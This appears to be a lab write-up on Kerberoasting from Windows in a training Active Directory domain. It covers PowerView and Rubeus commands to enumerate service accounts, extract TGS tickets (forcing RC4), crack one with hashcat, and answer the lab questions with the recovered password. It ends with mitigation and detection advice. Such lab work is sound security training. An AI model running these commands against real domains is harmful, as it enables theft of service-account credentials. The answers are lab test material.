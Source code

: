 <div align='center'>

# **Lab 14: Kerberoasting - from Windows** 

</div>

## **Using PowerView to Extract TGS Tickets**

**Enumerating SPN accounts**

```powershell
Get-DomainUser * -spn | select samaccountname
```

![](../imgs/Lab/Lab14/1.png)

**Using PowerView to Extract TGS Tickets for a Specific User (svc_vmwaresso), exporting Ticket to a CSV File**

```powershell
Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat | Export-Csv vmware_tgs.csv
```

We get a file [vmware_tgs.csv](../docs/vmware_tgs.csv) containing the ticket for the user svc_vmwaresso

![](../imgs/Lab/Lab14/2.png)

## **Using Rubeus**

```powershell
Rubeus.exe kerberoast /stats
```

![](../imgs/Lab/Lab14/3.png)

Look at the result, we can see that there are 12 Kerberoastable users, 11 of which support RC4 encryption for ticket requests and one of which support AES 128/256

Request tickets for accounts with the `admincount` attribute set to `1`. Using `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat

```powershell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

![](../imgs/Lab/Lab14/4.png)

Using `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket since the AES 128/256 encryption takes a much longer time to crack than an RC4

```powershell
Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

Note: This only works in a domain with Domain Controllers running on Server 2016 or earlier

## **Mitigation & Detection**

**Mitigation**
- Set a long and complex password or passphrase that does not appear in any word list
- Use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval or accounts set up with LAPS
- Restricting the use of the RC4 algorithm, particularly for Kerberos requests by service accounts.
- Domain Admins and other highly privileged accounts should not be used as SPN accounts

**Detection**

- Observe abnormal number of TGS-REQ and TGS-REP requests and responses, signaling the use of automated Kerberoasting tools
- Domain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy

    ![](../imgs/Lab/Lab14/5.png)

    Doing so will generate two separate event IDs: [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed. A large amount of 4769 event IDs from one account within a short period may indicate an attack

## **Question**

- What is the name of the service account with the SPN 'vmware/inlanefreight.local'?

    ```powershell
    Get-DomainUser * -spn | select samaccountname, serviceprincipalname | findstr vmware
    ```

    ![](../imgs/Lab/Lab14/6.png)

    **Answer**: svc_vmwaresso

    ![](../imgs/Lab/Lab14/7.png)

- Crack the password for this account and submit it as your answer.

    ```zsh
    hashcat -m 13100 vmware_tgs /usr/share/wordlists/rockyou.txt --force
    ```

    ![](../imgs/Lab/Lab14/8.png)

    **Answer**: Virtual01

    ![](../imgs/Lab/Lab14/9.png)